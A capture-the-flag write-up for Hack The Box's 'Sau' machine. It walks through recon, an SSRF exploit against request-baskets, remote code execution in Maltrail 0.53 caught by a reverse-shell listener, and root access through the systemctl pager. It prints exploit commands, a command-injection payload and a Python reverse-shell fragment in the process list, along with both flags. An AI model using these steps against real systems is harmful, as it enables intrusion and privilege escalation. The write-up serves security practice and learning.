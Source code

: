 ```yaml
---
layout: post
title: Sau HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux,cve,ssrf,rce,gtfobins]
image:
  path: /images/htb/easy/sau/icon.png
---
```


A retiring linux easy machine, trying to do one a day!

**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.

![request-baskets Instance](/images/htb/easy/sau/request-baskets.png)

## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).

![Mailtrail Instance](/images/htb/easy/sau/mailtrail.png)

## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag <mark>70e0259608b4b058ee6e83c02f83554b</mark>!

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at [GTFOBins entry for systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag: <mark>9d5259dd1993658152d9863c78564c1e</mark>!

![Success](/images/htb/easy/sau/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).